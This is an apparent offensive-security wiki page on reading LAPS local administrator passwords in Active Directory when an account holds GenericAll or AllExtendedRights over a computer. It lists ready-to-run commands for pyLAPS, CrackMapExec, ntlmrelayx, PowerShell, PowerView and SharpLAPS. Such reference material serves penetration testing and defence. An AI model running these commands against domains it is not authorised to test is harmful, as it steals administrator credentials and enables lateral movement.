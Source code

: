 # ReadLAPSPassword

This abuse can be carried out when controlling an object that has `GenericAll` or `AllExtendedRights` (or combination of `GetChanges` and (`GetChangesInFilteredSet` or `GetChangesAll`) for domain-wise synchronization) over the target computer configured for LAPS. The attacker can then read the LAPS password of the computer account (i.e. the password of the computer's local administrator).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [pyLAPS](https://github.com/p0dalirius/pyLAPS) (Python) can be used to retrieve LAPS passwords.

```bash
pyLAPS.py --action get -d 'DOMAIN' -u 'USER' -p 'PASSWORD' --dc-ip 192.168.56.101
```

Alternatively, [CrackMapExec](https://github.com/mpgn/CrackMapExec) also has this ability (since v5.1.6).. In case it doesn't work [this public module](https://github.com/T3KX/Crackmapexec-LAPS) for CrackMapExec could also be used.

```bash
# Default command
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps

# The COMPUTER filter can be the name or wildcard (e.g. WIN-S10, WIN-* etc. Default: *)
cme ldap $DOMAIN_CONTROLLER -d $DOMAIN -u $USER -p $PASSWORD --module laps -O computer="target-*"
```

Impacket's ntlmrelayx also carries that feature, usable with the `--dump-laps`.

[LAPSDumper](https://github.com/n00py/LAPSDumper) is another Python alternative.
{% endtab %}

{% tab title="Windows" %}
This can be achieved with the Active Directory PowerShell module.

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

The [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) powershell module from PowerSploit can also be used for that purpose.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```

[SharpLAPS](https://github.com/swisskyrepo/SharpLAPS) (C#) automates that process.&#x20;

```bash
SharpLAPS.exe /user:"DOMAIN\User" /pass:"Password" /host:"192.168.1.1"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://simondotsh.com/infosec/2022/07/11/dirsync.html" %}
